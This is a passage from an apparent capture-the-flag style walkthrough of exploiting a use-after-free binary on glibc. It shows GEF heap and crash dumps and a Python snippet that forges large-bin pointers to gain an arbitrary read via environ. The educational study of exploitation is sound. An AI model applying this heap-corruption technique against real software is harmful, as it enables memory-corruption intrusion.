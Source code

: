 ```
───────────────────── Large Bins for arena at 0x7efd927feca0 ────────────────────
[+] large_bins[65]: fw=0x5584f7e012c0, bk=0x5584f7e012c0
 →   Chunk(addr=0x5584f7e012d0, size=0x490, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
[+] Found 1 chunks in 1 large non-empty bins.
gef➤  x/4xg 0x5584f7e012d0
0x5584f7e012d0: 0x00007efd927ff110      0x00007efd927ff110
0x5584f7e012e0: 0x00005584f7e012c0      0x00005584f7e012c0 < pointers to address - 0x10
gef➤  x/4xg 0x00005584f7e012c0
0x5584f7e012c0: 0x00005584f7e012d0      0x0000000000000491
0x5584f7e012d0: 0x00007efd927ff110      0x00007efd927ff110
```

This shows that we need to overwrite four quadwords in `bio`: the glibc leak, the glibc leak, the address right before `bio`, and the address right before `bio`, in that order. This maintains the values already in the `bio` cached allocation, and reallocating it later avoids a crash in `new`:

```python
edit(p64(target_overwrite),
    b"BBBB",
	10,
    10,
    p64(glibc_leak) + p64(glibc_leak) + p64(bio - 0x10) + p64(bio - 0x10)
new(p64(environ), b"BBBB", 10, 10, b"AAAA")
leak = _print()
```

But running with this update now shows a crash in `edit`:

```
──────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7fefcc682a63 <_IO_getline_info+00b3> cmp    r12d, eax
   0x7fefcc682a66 <_IO_getline_info+00b6> je     0x7fefcc682b0b <__GI__IO_getline_info+347>
   0x7fefcc682a6c <_IO_getline_info+00bc> sub    r13, 0x1
 → 0x7fefcc682a70 <_IO_getline_info+00c0> mov    BYTE PTR [rbp+0x0], al
   0x7fefcc682a73 <_IO_getline_info+00c3> add    rbp, 0x1
   0x7fefcc682a77 <_IO_getline_info+00c7> test   r13, r13
   0x7fefcc682a7a <_IO_getline_info+00ca> jne    0x7fefcc682a42 <__GI__IO_getline_info+146>
   0x7fefcc682a7c <_IO_getline_info+00cc> nop    DWORD PTR [rax+0x0]
   0x7fefcc682a80 <_IO_getline_info+00d0> mov    rax, rbp
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "uaf_22.04", stopped 0x7fefcc682a70 in __GI__IO_getline_info (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7fefcc682a70 → __GI__IO_getline_info(fp=0x7fefcc7feac0 <_IO_2_1_stdin_>, buf=0x0, n=0xf, delim=0xa, extract_delim=0x1, eof=0x0)
[#1] 0x7fefcc682b5c → __GI__IO_getline(fp=0x7fefcc7feac0 <_IO_2_1_stdin_>, buf=0x0, n=0xf, delim=0xa, extract_delim=0x1)
[#2] 0x7fefcc681720 → _IO_fgets(buf=0x0, n=0x10, fp=0x7fefcc7feac0 <_IO_2_1_stdin_>)
[#3] 0x55a40029441a → edit()
[#4] 0x55a40029435c → new()
[#5] 0x55a40029482e → main()
```

At this point we might be at our wits end, but it is important not to panic. We're making progress and understanding more about the program and the system than we previously knew. These are opportunities to take a step back and assess our assumptions. 
